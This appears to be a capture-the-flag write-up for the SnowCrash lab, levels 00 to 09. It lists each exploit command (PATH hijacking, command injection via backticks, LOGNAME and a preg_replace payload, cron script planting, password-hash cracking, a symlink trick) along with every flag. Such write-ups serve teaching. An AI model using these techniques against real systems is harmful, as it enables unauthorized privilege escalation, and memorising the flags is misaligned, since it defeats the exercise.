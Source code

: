 # snow_crash


# Level 00
```sh
level00@SnowCrash:~$ find / -path /proc -prune -o -user flag00 -print 2> /dev/null
/usr/sbin/john
/rofs/usr/sbin/john
```
```sh
level00@SnowCrash:~$ cat /usr/sbin/john
cdiiddwpgswtgt
```
[The Cipher Identifier](https://www.dcode.fr/cipher-identifier) => ROT Cipher
Brute Force ROT Cipher => nottoohardhere

<details>
	<summary>Flag:</summary>
	x24ti5gi3x0ol2eh4esiuxias
</details>

# Level 01
```sh
find / -path /dev -prune -o -exec grep -Hn "flag01" {} \; 2>/dev/null
/etc/passwd:41:flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
```
Encoded in SHA512(?)
https://www.openwall.com/john/
```sh
wget https://www.openwall.com/john/k/john-1.9.0-jumbo-1.tar.xz
tar -xJf john-1.9.0-jumbo-1.tar.xz
./configure && make -s clean && make -sj4 
echo 42hDRfypTqqnw > /tmp/pass

./john /tmp/pass
Proceeding with wordlist:./password.lst, rules:Wordlist
abcdefg          (?)

```

<details>
	<summary>Flag:</summary>
	f2av5il02puano7naaf6adaaf
</details>

# Level 02

level02.pcap with Wireshark

Right click => Follow => TCP

Password: ft_wandr...NDRel.L0L   (. = backspace)

Final password: ft_waNDReL0L

<details>
	<summary>Flag:</summary>
	kooda2puivaav1idi4f57q8iq
</details>

# Level 03

exec in https://dogbolt.org

```c
int32_t main(int32_t argc, char** argv, char** envp)
{
    gid_t eax = getegid();
    uid_t eax_1 = geteuid();
    setresgid(eax, eax, eax);
    setresuid(eax_1, eax_1, eax_1);
    return system("/usr/bin/env echo Exploit me");
}
```

/usr/bin/env is absolut

```sh
cp /bin/getflag /tmp/echo
PATH=/tmp ./level03
```

<details>
	<summary>Flag:</summary>
	qi0maab88jeaj46qoumi7maus
</details>

# Level 04

level04.pl as CGI

Connect on appach at localhost:4747

```sh
level04@SnowCrash:/etc/apache2/sites-available$ curl "localhost:4747?x=\`getflag\`"
```

<details>
	<summary>Flag:</summary>
	ne2searoevaevoem4ov4ar8ap
</details>

# Level 05

On connection: You have new mail.

```sh
$ cat /var/spool/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

echo "echo test; exec /bin/getflag > /tmp/soluc" > /opt/openarenaserver/test.sh
echo /tmp/soluc
```

<details>
	<summary>Flag:</summary>
	viuaaale9huek52boumoomioc
</details>

# Level 06

```sh
$ ls
level06  level06.php

$ echo '[x {${exec(getflag)}}]' > /tmp/test && ./level06 /tmp/test
```

<details>
	<summary>Flag:</summary>
	wiok45aaoguiboiki2tuin6ub
</details>

# Level 07


```c
    asprintf(&v1, "/bin/echo %s ");
```

```sh
$ LOGNAME="; getflag" ./level07 
```

<details>
	<summary>Flag:</summary>
	fiumuikeil55xe9cu4dood66h
</details>ls

# Level 08

```sh
$ ln -s /home/user/level08/token /tmp/testing
$ ./level08 /tmp/testing
$ su flag08
$	quif5eloekouj29ke0vouxean
```

<details>
	<summary>Flag:</summary>
	25749xKZ8L7DkSCwJkT9dyv6f
</details>

# Level 09

```sh
$ scp -P 4243 level09@localhost:/home/user/level09/token .
# exec script to rotate
$ echo "<res>" > /tmp/res
$ ./level09 /tmp/res
```

<details>
	<summary>Flag:</summary>
	s5cAJpM8ev6XHw998pRWG728z
</details>
